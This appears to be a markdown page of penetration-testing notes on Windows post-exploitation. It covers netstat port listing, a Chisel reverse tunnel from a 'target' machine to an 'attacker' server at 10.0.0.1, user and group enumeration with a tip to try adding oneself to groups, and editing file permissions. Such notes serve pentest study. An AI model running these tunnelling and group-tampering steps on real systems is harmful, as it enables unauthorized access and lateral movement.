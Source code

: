 ## Open Ports

```bash
netstat -a
```

If we found the listening ports, we need to port forwarding to access the port in local machine.   
For example, assume the port 8000 is listening. We can access to the target port 8000 by accessing to `http://localhost:8000` in local by executing the following command.

```bash
# Remote (target) machine
chisel.exe client 10.0.0.1:9999 R:8000:127.0.0.1:8000

# Local (attacker) machine
chisel server --reverse -p 9999
```

Please refer to [this page](port-forwarding-with-chisel.md) to check how to use Chisel for port forwarding.

<br />

## Getting All Local Users/Groups

We can find all local users in **Computer Management** utility.
To open, enter **"computer management"** in search form at the bottom of the windows screen.

In Computer Management, click **"Local Users and Groups"**.

### Enumerate Users

1. Click **"Users"**.
2. Double-click each user to get details e.g. **"Member Of"**.

### Enumerate Groups

1. Click **"Groups"**.
2. Double-click each group.
3. Attempt to add new user in the group because we might be able to do that even if we are not an administrator.

<br />

## Change File Permission

1. Right-click on the file.
2. Select the **Properties**.
3. Click the **Security** tab.
4. Click **“Advanced”**.
5. In the **Permissions** tab, click the **“Add”**.
6. Click **“Select a principal”**.
7. Enter the username in the text field.
8. Click **OK** and **Apply**.
